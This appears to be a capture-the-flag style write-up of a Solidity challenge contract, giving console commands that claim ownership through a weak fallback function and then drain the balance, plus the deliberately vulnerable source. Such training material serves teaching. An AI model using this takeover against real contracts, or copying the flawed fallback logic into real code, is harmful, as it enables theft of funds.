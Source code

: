 This contract takes contributions in the form of small donations. If you have the most contributions you become the owner of the contract and can then withdrawl everything in the contract. At the beginning the owner is set to 1000 ether. 

In order to contribute we can send ```await contract.contribute.sendTransaction({value: toWei(".0001")})```

To take over the contract we need to send a transaction to the contract with a value greater then 0 and have contributions greater then 0. This can be done by ```await contract.sendTransaction({value: toWei(".001")})```  This is because the fallback function only has those 2 checks to change the owner. So instead of sending the contract and calling the contribute function we just send data to the contract. 

We can check owner by calling ```await contract.owner()``` and we can see that the owner's address is the same as ours. Therefore we can withdraw all the eth.

```solidity
pragma solidity ^ 0.6 .0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback
{

	using SafeMath
	for uint256;
	mapping(address => uint) public contributions;
	address payable public owner;

	constructor() public
	{
		owner = msg.sender;
		contributions[msg.sender] = 1000 * (1 ether);
	}

	modifier onlyOwner
	{
		require(
			msg.sender == owner,
			"caller is not the owner"
		);
		_;
	}

	function contribute() public payable
	{
		require(msg.value < 0.001 ether);
		contributions[msg.sender] += msg.value;
		if (contributions[msg.sender] > contributions[owner])
		{
			owner = msg.sender;
		}
	}

	function getContribution() public view returns(uint)
	{
		return contributions[msg.sender];
	}

	function withdraw() public onlyOwner
	{
		owner.transfer(address(this).balance);
	}

	fallback() external payable
	{
		require(msg.value > 0 && contributions[msg.sender] > 0);
		owner = msg.sender;
	}
}
```